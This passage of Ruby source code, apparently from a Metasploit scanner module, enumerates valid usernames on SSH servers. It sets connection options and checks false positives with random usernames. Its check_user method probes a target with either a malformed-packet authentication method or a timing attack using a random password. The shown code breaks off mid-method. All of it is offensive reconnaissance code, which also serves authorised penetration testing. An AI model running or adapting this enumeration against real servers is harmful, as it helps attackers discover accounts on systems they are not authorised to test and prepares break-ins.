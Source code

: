 ```ruby
                    true, 'The number of attempts to connect to a SSH server' \
                ' for each user', 3
                ]),
        OptInt.new('SSH_TIMEOUT',
                [
                    false, 'Specify the maximum time to negotiate a SSH session',
                    10
                ]),
        OptBool.new('SSH_DEBUG',
                    [
                    false, 'Enable SSH debugging output (Extreme verbosity!)',
                    false
                    ])
    ]
    )
end

def rport
    datastore['RPORT']
end

def retry_num
    datastore['RETRY_NUM']
end

def threshold
    datastore['THRESHOLD']
end

# Returns true if a nonsense username appears active.
def check_false_positive(ip)
    user = Rex::Text.rand_text_alphanumeric(8..32)
    attempt_user(user, ip) == :success
end

def check_user(ip, user, port)
    technique = action['Type']

    opts = ssh_client_defaults.merge({
    port: port
    })

    # The auth method is converted into a class name for instantiation,
    # so malformed-packet here becomes MalformedPacket from the mixin
    case technique
    when :malformed_packet
    opts.merge!(auth_methods: ['malformed-packet'])
    when :timing_attack
    opts.merge!(
        auth_methods: ['password', 'keyboard-interactive'],
        password: rand_pass
    )
    end

    opts.merge!(verbose: :debug) if datastore['SSH_DEBUG']

    start_time = Time.new

    begin
    ssh = Timeout.timeout(datastore['SSH_TIMEOUT']) do
        Net::SSH.start(ip, user, opts)
    end
    rescue Rex::ConnectionError
```